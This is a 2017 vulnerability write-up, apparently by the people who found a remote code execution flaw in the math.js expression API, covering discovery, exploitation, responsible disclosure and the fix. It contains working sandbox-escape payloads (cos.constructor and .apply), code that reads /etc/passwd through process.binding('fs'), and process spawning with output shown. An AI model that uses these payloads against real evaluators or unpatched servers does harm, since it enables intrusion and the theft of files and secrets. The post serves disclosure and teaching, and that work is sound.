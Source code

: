 How we exploited a remote code execution vulnerability in math.js
====

This article explains in short how we found, exploited and reported a remote code execution (RCE) vulnerability. It is meant to be a guide to finding vulnerabilities, as well as reporting them in a responsible manner.

## Step one: discovery
While playing around with [a wrapper](https://github.com/LucentW/s-uzzbot/blob/master/plugins/calculator.lua) of the math.js API (`http://api.mathjs.org/v1/?expr=expression-here`), we discovered that it **appears to evaluate JavaScript**, though with some restrictions:

```
!calc cos
Result: function
!calc eval
Result: function
!calc eval("x => x")
Error: Value expected (char 3)
!calc eval("console.log")
Error: Undefined symbol console
!calc eval("return 1")
Result: 1
```

In particular, it seems that `eval` was replaced with a safe version. `Function` and `setTimeout`/`setInterval` didn't work, either:

```
!calc Function("return 1")
Error: Undefined symbol Function
!calc setTimeout
Error: Undefined symbol Function
```

## Step two: exploitation

>Now that we figured out that there are some sort of restrictions around code evaluation, we had to escape them.

There are four standard ways to **evaluate strings in JavaScript**:

  - [`eval("code")`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
  - [`new Function("code")`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function)
  - [`setTimeout("code", timeout)`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout)
  - [`setInterval("code", interval)`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setInterval)

In the math.js environment, these cannot be accessed directly, either because they aren't defined or because they have been redefined with safe functions. However, they can be accessed indirectly: notably, **`Function` can be accessed indirectly as the constructor of an existing function** - this was the key intuition that led to discovering the vulnerability.

>For example, `Function("return 1")` can be replaced with `Math.floor.constructor("return 1")`. Therefore, to evaluate `return 1`, we can use `Math.floor.constructor("return 1")()`.

We know that in the math.js environment `cos` is defined as a function, so we used that:

```
!calc cos.constructor("return 1")()
Result: 1
```

Success!

From here we could have simply `require`-d some native modules and gained access to the OS, right? Not so fast: although the math.js API server runs in a Node.js environment, for whatever reason we couldn't use `require`.

```
!calc cos.constructor("return require")()
Error: require is not defined
```

However, we could use `process`, which has [a few nifty features](https://nodejs.org/api/process.html):

```
!calc cos.constructor("return process")()
Result: [object process]
!calc cos.constructor("return process.env")()
Result: {"WEB_MEMORY": "512", "MEMORY_AVAILABLE": "512", "NEW_RELIC_LOG": "stdout", "NEW_RELIC_LICENSE_KEY": "<censored>", "DYNO": "web.1", "PAPERTRAIL_API_TOKEN": "<censored>", "PATH": "/app/.heroku/node/bin:/app/.heroku/yarn/bin:bin:node_modules/.bin:/usr/local/bin:/usr/bin:/bin:/app/bin:/app/node_modules/.bin", "WEB_CONCURRENCY": "1", "PWD": "/app", "NODE_ENV": "production", "PS1": "\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]", "SHLVL": "1", "HOME": "/app", "PORT": "<censored>", "NODE_HOME": "/app/.heroku/node", "_": "/app/.heroku/node/bin/node"}
```

Though `process.env` contains some bits of juicy info, it can't really do anything interesting: we need to go deeper and use [`process.binding`](http://stackoverflow.com/q/24042861), which exposes Javascript bindings to the OS. Though they are not officially documented and are meant for internal usage, one can reconstruct their behaviour from reading through the Node.js source code. For example, we can use `process.binding("fs")` to read arbitrary files on the OS (with the appropriate permissions):

>For brevity, we'll skip the `!calc cos.constructor("code")` wrapper, and paste the relevant JS code instead.

```
buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer
Result: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
<more users...>
```

We're almost done: now we need to figure out a way to open a shell and run arbitrary commands. If you have experience with Node.js, you may know about [`child_process`](https://nodejs.org/api/child_process.html), which can be used to spawn processes with `spawnSync`: we just need to replicate this feature using OS bindings (remember that we can't use `require`).

This is easier than it seems: you can just take [the source code for `child_process`](https://github.com/nodejs/node/blob/master/lib/child_process.js), remove the code you don't need (unused functions and error handling), minify it, and run it through the API ([code here](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822)). From here, **we can spawn arbitrary processes** and run shell commands:

```
return spawnSync('/usr/bin/whoami');
Result: {"status": 0, "signal": null, "output": [null, u15104, ], "pid": 100, "stdout": u15104, "stderr": }
```

## Step three: reporting

Now that we found a vulnerability and exploited it to the largest extent possible, we had to decide what to do with it. Since we exploited it for fun and have no malicious intents, we took the "white hat" road and reported it to the maintainer. We **contacted him privately** through the e-mail address listed on his GitHub profile with the following details:

 - a short description of the vulnerability (a remote code execution flaw in mathjs.eval);
 - an **example attack** with explanation of how it works (a summary of why `cos.constructor("code")()` works and what can be achieved with `process.bindings`);
 - an actual **demonstration** on the live server (we included the output of `whoami` and `uname -a`);
 - suggestions on **how to fix it** (using the [`vm` module in Node.js](https://nodejs.org/api/vm.html), for example).

Over a course of two days, we worked with the author to help fix the vulnerability. Notably, after he pushed a fix in [`2f45600`](https://github.com/josdejong/mathjs/commit/2f456009056bc332673f45ca143d4d92c8c7b159) we found a similar workaround (if you can't use the constructor directly, use `cos.constructor.apply(null, "code")()`) which was fixed in [`3c3517d`](https://github.com/josdejong/mathjs/commit/3c3517daa6412457826b79b60368d8e8e415a7dd).

### Timeline
 - 26 March 2017 22:20 CEST: first successful exploitation
 - 29 March 2017 14:43 CEST: vulnerability reported to the author
 - 31 March 2017 12:35 CEST: second vulnerability (`.apply`) reported
 - 31 March 2017 13:52 CEST: both vulnerabilities are fixed

---

>This vulnerability was discovered by [\@CapacitorSet](https://github.com/CapacitorSet) and [\@denysvitali](https://github.com/denysvitali). Thanks to [\@josdejong](https://github.com/josdejong/) for promptly fixing the vulnerability and [JSFuck](http://www.jsfuck.com/) for discovering the `[].filter.constructor` trick.
>
><small>Released under [**CC-BY 4.0**](https://creativecommons.org/licenses/by/4.0/).